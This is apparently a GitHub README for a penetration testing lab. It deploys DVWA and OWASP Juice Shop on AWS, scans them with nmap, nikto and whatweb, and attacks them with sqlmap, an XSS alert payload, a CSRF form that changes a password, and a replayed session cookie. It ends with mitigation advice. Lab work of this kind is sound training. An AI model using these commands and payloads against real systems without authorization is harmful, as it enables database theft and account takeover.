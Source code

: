 # Web Application Penetration Testing

## 📌 Overview
This project demonstrates a full Web Application Penetration Testing workflow by setting up, scanning, exploiting, and documenting vulnerabilities in a deliberately insecure web application hosted on AWS.

---

## 🚀 Steps to Follow

### 🔹 Step 1: Deploy a Vulnerable Web Application
We deploy **DVWA (Damn Vulnerable Web App)** and **OWASP Juice Shop** on an **AWS EC2 instance**.

#### 🛠 Prerequisites
- AWS Account / Azure Subscription
- Linux-based VM (Ubuntu recommended)
- Basic Linux command-line knowledge

#### 🏗 Option 1: Deploy DVWA on AWS EC2
```bash
# Connect to EC2 instance
ssh -i your-key.pem ubuntu@your-ec2-public-ip

# Update system & install dependencies
sudo apt update && sudo apt install -y apache2 mariadb-server php php-mysql unzip git

# Download & configure DVWA
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
sudo chown -R www-data:www-data DVWA

# Set up MySQL for DVWA
sudo mysql -u root -e "CREATE DATABASE dvwa;"
sudo mysql -u root -e "CREATE USER 'dvwa'@'localhost' IDENTIFIED BY 'password';"
sudo mysql -u root -e "GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa'@'localhost';"
sudo mysql -u root -e "FLUSH PRIVILEGES;"

# Restart Apache
sudo systemctl restart apache2
```
Access **DVWA** at: `http://your-ec2-public-ip/DVWA/`

#### 🏗 Option 2: Deploy OWASP Juice Shop
```bash
sudo apt install -y docker.io
sudo docker run -d -p 3000:3000 bkimminich/juice-shop
```
Access **Juice Shop** at: `http://your-ec2-public-ip:3000`

---

### 🔹 Step 2: Reconnaissance & Scanning

#### 🔍 Tools Required
- **Nmap** (Port Scanning & Service Discovery)
- **Nikto** (Web Server Vulnerability Scanning)
- **WhatWeb** (Web Technology Fingerprinting)

#### 📌 Run Nmap for Port Scanning
```bash
nmap -sV -A your-ec2-public-ip
```
Find open ports, web server details, and outdated software versions.

#### 📌 Scan for Vulnerabilities with Nikto
```bash
nikto -h http://your-ec2-public-ip/DVWA/
```
Identifies security flaws like **default credentials**, **XSS**, and **SQL Injection**.

#### 📌 Fingerprint Technologies with WhatWeb
```bash
whatweb http://your-ec2-public-ip/DVWA/
```
Identifies CMS, frameworks, and server details for targeting vulnerabilities.

---

### 🔹 Step 3: Exploiting Vulnerabilities

#### 💉 SQL Injection (SQLi) with SQLmap
```bash
sqlmap -u "http://your-ec2-public-ip/DVWA/vulnerabilities/sqli/?id=1" --dbs --batch
```
Extracts **database names, tables, and credentials**.

#### 🛑 Cross-Site Scripting (XSS) with Burp Suite
```html
<script>alert('XSS Found')</script>
```
If the alert pops up, XSS is successful.

#### 🔓 Cross-Site Request Forgery (CSRF)
```html
<form action="http://your-ec2-public-ip/DVWA/vulnerabilities/csrf/" method="POST">
  <input type="hidden" name="password_new" value="hacked123">
  <input type="hidden" name="password_conf" value="hacked123">
  <input type="submit" value="Click Here">
</form>
```
Tricks a logged-in user into **changing their password** without consent.

#### 🏴‍☠️ Session Hijacking (Authentication Exploit)
```bash
curl -b "PHPSESSID=abcd1234" http://your-ec2-public-ip/DVWA/
```
If successful, an attacker can log in without credentials.

---

### 🔹 Step 4: Reporting & Mitigation

📋 **Penetration Testing Report** using Dradis/OpenVAS

✅ **Mitigation Recommendations:**
- **SQL Injection** → Use prepared statements.
- **XSS** → Implement input sanitization & Content Security Policy (CSP).
- **CSRF** → Enforce CSRF tokens.
- **Session Hijacking** → Enable Secure Cookies & HttpOnly Flag.

---

## 🎯 Final Outcome
✅ You have successfully performed **Web Application Penetration Testing**.

---

## 🤝 Contributing
Pull requests are welcome! If you find any improvements or issues, feel free to submit them.

## 📜 License
This project is licensed under the **MIT License**.
This project is for educational purposes only. Do not use it for unethical hacking.

## 📬 Contact
For queries, reach out via **GitHub Issues** or **email**.

---

🔥 Happy Hacking! 🔥

